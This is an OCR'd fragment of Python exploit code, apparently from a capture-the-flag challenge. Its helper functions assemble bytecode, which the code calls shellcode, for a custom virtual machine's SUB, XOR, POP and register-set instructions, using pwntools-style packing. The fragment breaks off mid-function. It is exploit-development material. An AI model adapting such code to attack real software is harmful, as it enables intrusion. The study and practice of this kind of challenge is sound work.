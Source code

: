 ```python
    shellcode += p8(RET_REG)
    shellcode += p64(value)

    return shellcode

def sub_value_reg(value):
    shellcode = b''
    shellcode += p8(opcode["SUB"])
    # push value
    # optype
    # sub [reg],num
    shellcode += p8(((generate_type("NUM") << 2) | generate_type("REG")))
    # opvalue, select reg1
    shellcode += p8(RET_REG)
    shellcode += p64(value)

    return shellcode

def sub_value(value):
    shellcode = b''
    shellcode += p8(opcode["SUB"])
    # push value
    # optype
    # sub [reg],num
    shellcode += p8(((generate_type("NUM") << 2) | generate_type("ADDR")))
    # opvalue, select reg1
    shellcode += p8(RET_REG)
    shellcode += p64(value)

    return shellcode

def xor_value_reg(value):
    shellcode = b''
    shellcode += p8(opcode["XOR"])
    shellcode += p8(((generate_type("NUM") << 2) | generate_type("REG")))
    # opvalue, select reg1
    shellcode += p8(3)
    shellcode += p64(value)

    return shellcode

# pop value out of stack
def pop_value():
    shellcode = b''
    shellcode += p8(opcode["POP"])
    # push value
    # optype
    shellcode += p8(generate_type("REG"))
    # opvalue, select reg1
    shellcode += b'\x01'
    return shellcode

# set result with value and reg
def set_value_reg(value, reg):
    shellcode = b''
    shellcode += p8(opcode["OP2"])
    # push value
    # optype
    types = ((generate_type("NUM") << 2) | generate_type("REG"))
    shellcode += p8(types)
    # opvalue, select reg1
    shellcode += p8(reg)
    # opvalue as op2
```